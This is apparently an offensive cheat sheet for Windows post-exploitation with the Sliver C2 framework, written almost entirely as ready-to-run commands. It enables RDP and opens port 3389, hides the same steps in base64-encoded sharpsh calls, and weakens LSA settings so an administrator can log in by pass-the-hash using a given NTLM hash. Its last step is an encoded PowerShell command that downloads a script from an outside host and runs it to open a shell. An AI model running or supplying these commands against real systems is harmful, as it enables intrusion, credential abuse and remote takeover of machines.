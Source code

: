 # Enable RDP

### 1) Enable RDP and allow its port

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    netsh firewall add portopening TCP 3389 "Remote Desktop"

### 2) Encoded commands within Sliver

    sharpsh -- -e -c U2V0LUl0ZW1Qcm9wZXJ0eSAtUGF0aCAiSEtMTTpcU1lTVEVNXEN1cnJlbnRDb250cm9sU2V0XENvbnRyb2xcVGVybWluYWwgU2VydmVyIiAtTmFtZSAiZkRlbnlUU0Nvbm5lY3Rpb25zIiAtVmFsdWUgMCAtVHlwZSBEV29yZA0K
    sharpsh -- -e -c bmV0c2ggZmlyZXdhbGwgYWRkIHBvcnRvcGVuaW5nIFRDUCAzMzg5ICJSZW1vdGUgRGVza3RvcCI=

### 3) Allow PtH login

    New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
    sharpsh -- -c \"New-ItemProperty -Path \"HKLM:\\System\\CurrentControlSet\\Control\\Lsa\" -Name DisableRestrictedAdmin -Value 0\"

### 4) RDP as Administrator with PtH

    xfreerdp /u:Administrator /pth:a293fe16548ddab726ed3ace8cdee7ba /v:10.10.100.10 /cert:ignore /dynamic-resolution

### 5) Once RDPed, open powershell as admin and run or use NXC to get shell on sliver

    powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA==

